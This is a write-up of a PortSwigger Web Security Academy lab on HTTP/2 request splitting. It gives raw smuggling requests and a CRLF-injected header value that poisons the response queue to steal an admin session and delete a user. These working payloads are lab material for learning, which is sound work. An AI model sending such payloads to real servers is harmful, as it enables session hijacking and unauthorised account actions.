





# HTTP/2 request splitting via CRLF injection
# Objective
This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

To solve the lab, delete the user `carlos` by using response queue poisoning to break into the admin panel at `/admin`. An admin user will log in approximately every 10 seconds.

The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection.

# Solution
## Analysis
### Basic request smuggling attact attempts
#### H2.CL attempt
There is no visible indication of HTTP/2 downgrading vulnerability.
```
POST / HTTP/2
Host: 0ad900ce0348096a83d624be00a80045.web-security-academy.net
Cookie: session=t8Qlp6VyZ8KyntbHD2av2JTBUx91fs0E
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 115

GET /smuggled HTTP/1.1
Host: 0a4c00e403c389f6825dc5f6007b00d2.web-security-academy.net
Content-Length: 5

x=1
```

#### H2.TE attempt
There is no visible indication of HTTP/2 downgrading vulnerability.
```
POST / HTTP/2
Host: 0ad900ce0348096a83d624be00a80045.web-security-academy.net
Cookie: session=t8Qlp6VyZ8KyntbHD2av2JTBUx91fs0E
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /smuggled HTTP/1.1
Host: 0a7a00c20317eebe803a2648006d0060.web-security-academy.net
```

### Request splitting
Website is vulnerable to `HTTP/2 request splitting` - smugglinng requests in HTTP/2 header.
||
|:--:| 
| *Request was smuggled successfuly* |
||
| *Request was smuggled successfuly* |

## Exploitation
By exploitig `HTTP/2 request splitting` vulnerability attacker can poison response queue. Because of that, attacker can receive victim's response. In this case attacker was able to get `HTTP 302` response with admin's session token. Victim was trying to log in and he did not receive correct response. He received response to smuggled request (`GET` request to `/smuggled`) - `HTTP 404 Not found`.

> [!IMPORTANT]  
> In order to smuggle whole request and separate it from other request the smuggled request must end with `\r\n\r\n`. In this case this wasn't needed because front-end was adding `\r\n\r\n` automatically.

```
Client                                              Front-end
Attacker Request_1, Request_2 (smuggled)    -->     
                                            <--     Response_1
Victim Request_3                            -->
                                            <--     Response_2
Attacker Request_4                          -->
                                            <--     Response_3
```

```
GET / HTTP/2
Host: 0ad900ce0348096a83d624be00a80045.web-security-academy.net
Cookie: session=t8Qlp6VyZ8KyntbHD2av2JTBUx91fs0E
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Foo: bar\r\n\r\nGET /smuggled HTTP/1.1\r\nHost: 0ad900ce0348096a83d624be00a80045.web-security-academy.net

```

Header `Foo` value:
```
bar\r\n
\r\n
GET /smuggled HTTP/1.1\r\n
Host: 0ad900ce0348096a83d624be00a80045.web-security-academy.net
```

||
|:--:| 
| *Successful response queue poisoning* |
||
| *Admin panel* |
||
| *Deletionn of userCarlos* |